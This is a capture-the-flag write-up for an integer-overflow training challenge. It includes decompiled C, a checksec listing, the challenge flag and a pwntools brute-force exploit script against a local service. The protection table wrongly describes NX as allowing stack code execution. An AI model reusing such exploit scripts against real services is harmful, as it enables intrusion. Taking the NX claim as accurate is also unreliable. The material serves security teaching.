



# [__Challenge4__](#)

## Description: 

* Simple integer overflow example. Use negative numbers and multiplication to see the result.

## Objective: 

* integer overflow.

## Flag:
* `FLAG{1nt3g3R_0v3rfl0w_15_d0p3}`

## Challenge:
 
Starting with a `checksec`: 

```console
➜  challenge git:(main) ✗ checksec ./challenge4 
[*] '/home/w3th4nds/github/Thesis/challenge4/challenge/challenge4'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ✅       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Allows code execution on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

All protections are `enabled`.

The interface of the program looks like this:



### Disassembly ⛏️

Starting from `main()`:

```c
undefined8 main(void)

{
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  info();
  vulnerable_function();
  printf("\n%s[-] You failed!\n",&DAT_00101087);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

There are some function calls:

* `setup()`   : Sets the appropriate buffers in order for the challenge to run.
* `banner()`  : Prints the banner.
* `info()`    : Prints the instructions.

Taking a better look at `vulnerable_function()`:

```c
void vulnerable_function(void)

{
  ushort uVar1;
  long in_FS_OFFSET;
  uint local_20;
  uint local_1c;
  uint local_18;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("\n[*] Insert 2 numbers: ");
  __isoc99_scanf("%d %d",&local_20,&local_1c);
  local_14 = menu();
  if ((0x45 < (int)local_20) || (0x45 < (int)local_1c)) {
    printf("%s[-] Numbers too big!\nYou failed!\n",&DAT_00101087);
                    /* WARNING: Subroutine does not return */
    exit(0x22);
  }
  if (local_14 == 1) {
    local_18 = add(local_20,local_1c,local_1c);
    printf("%d + %d = %d\n",(ulong)local_20,(ulong)local_1c,(ulong)local_18);
  }
  else {
    if (local_14 != 2) {
      puts("Invalid operation, exiting..");
                    /* WARNING: Subroutine does not return */
      exit(0x12);
    }
    uVar1 = mult(local_20,local_1c,local_1c);
    local_18 = (uint)uVar1;
    printf("%d * %d = %d\n",(ulong)local_20,(ulong)local_1c,(ulong)local_18);
  }
  if (local_18 == 0xfa12) {
    printf("\n%s[+] Congratulations!\n",&DAT_00101058);
    win();
  }
  else {
    vulnerable_function();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

There is a call to *menu()* that is assigned to `local_14`. Then, according to this (which is the operation as we will see later on), it calls the corresponding functions:

* add()
* mult()

```c
int add(int param_1,int param_2)

{
  return param_2 + param_1;
}

int mult(int param_1,int param_2)

{
  return param_1 * param_2;
}
```

### Goal 🥅

Make `local_c`, which is the result of the operation, have the value: `0xfa12` and then call `win()`.

This seems impossible because the bigger number we can insert is less than 70. (70*70=4900)

0xfa12 = 64018 which is a lot bigger than 4900.

Now that we have disassembled our program and we know what we need to do, let's debug it.

### win() 🏆

```c
void win(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  puts("\x1b[1;32m");
  puts("[+] Here is your reward:\n");
  __stream = fopen("./flag.txt","r");
  if (__stream == (FILE *)0x0) {
    printf("%s[-] Error opening flag.txt!\n",&DAT_00101087);
                    /* WARNING: Subroutine does not return */
    exit(0x45);
  }
  fgets((char *)&local_38,0x20,__stream);
  puts((char *)&local_38);
  fclose(__stream);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
As expected from the previous examples, this function reads and prints the flag for us.   

### Debugging :beetle:

Taking a closer look to the operations, we see something odd. In **“multiplication”**, there is a **short** assignment before the result.   

```c
uVar1 = mult(local_20,local_1c,local_1c);
local_18 = (uint)uVar1;
printf("%d * %d = %d\n",(ulong)local_20,(ulong)local_1c,(ulong)local_18);
```

Instead of being `ulong`, `local_18` is just `uint`. That means, it can save less bytes than `ulong`.

A **short integer** is 16 bits or 2 bytes long. In this situation, a negative number might need more than that to be stored, so there will be an **integer overflow**. The same things happens for integers and long integers. 
Some fuzzing makes this pretty clear.  



### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")

fname = "./challenge4" 

LOCAL = False

prompt = ">"

def pwn():
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  with log.progress("Bruteforcing numbers") as p: 
    for i in range (0,70):                  # try positive numbers 
        for k in range (-1,-100,-1):        # try negative numbers
          payload = str(i) + " " + str(k)   # craft payload
          p.status(f"\nPair: {payload}")
          r.sendlineafter("Insert 2 numbers:", payload)   
          r.sendlineafter(">", "2")         # choose multiplication    
          ln = r.recvline()                 # if we found the correct result
          if b"64018" in ln:
            print(colored("\n[+] Pair of numbers: ({})*({})", "green").format(i,k))
            flag = r.recvline_contains("FLAG").decode()
            print(colored("\n[+] Flag: {}\n".format(flag), "green"))
            exit()

if __name__ == "__main__":
  pwn()
```

### PoC 🏁

